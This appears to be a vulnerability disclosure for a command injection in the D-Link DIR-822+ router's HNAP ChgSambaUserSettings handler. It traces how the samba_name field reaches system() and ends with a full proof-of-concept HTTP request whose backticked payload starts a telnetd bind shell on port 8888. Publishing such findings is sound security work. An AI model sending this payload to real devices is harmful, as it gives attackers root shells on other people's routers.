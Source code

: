 ## DIR-822+ Command Injection

### Overview

* Manufacturer's address：http://www.dlink.com.cn/
* Firmware download address ：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-822%2B

### Affected version

D-Link DIR-822+ V1.0.5 was found to contain a command injection in `ChgSambaUserSettings` function of `prog.cgi`, which allows remote attackers to execute arbitrary commands via shell

![image-20240421163220274](./img/4.png)

### Vulnerability details

Vulnerability occurs in `/HNAP1/ChgSambaUserSettings`. Attackers can control `v23` by setting the `samba_name`.

![image-20240421163827190](./img/1.png)

In line 81, attackers can control `v19` by setting the `samba_pwd`. Function `sub_41AD4C` was used to decrypt password `v19` with key `v5`, and get the plaintext `v18`. If successfully decrypted, the program will call system in line 87, otherwise go to line 93, and finally call system in 96. 

![image-20240421163827190](./img/2.png)

Anyway, system was called twice, and its parameter `v21` was passed by `v23`, which controlled by attackers.

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `samba_name`. 

### EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 50
Accept: application/json
HNAP_AUTH: 5E736BA3725CFF7870DC7A1B6B9512E6 1703160655517
SOAPACTION: "http://purenetworks.com/HNAP1/ChgSambaUserSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=akiKeInk; PrivateKey=880D5E30644E82353544D9496CA35B50; timeout=51
Connection: close

{"ChgSambaUserSettings":{"samba_name":"`telnetd -l /bin/sh -p 8888 -b 0.0.0.0`", "samba": "foo", "samba_readonly": "false", "samba_dir": "/home", "samba_num": "8", "samba_pwd": "111111111111"}}
```

![image-20240421163827190](./img/3.png)
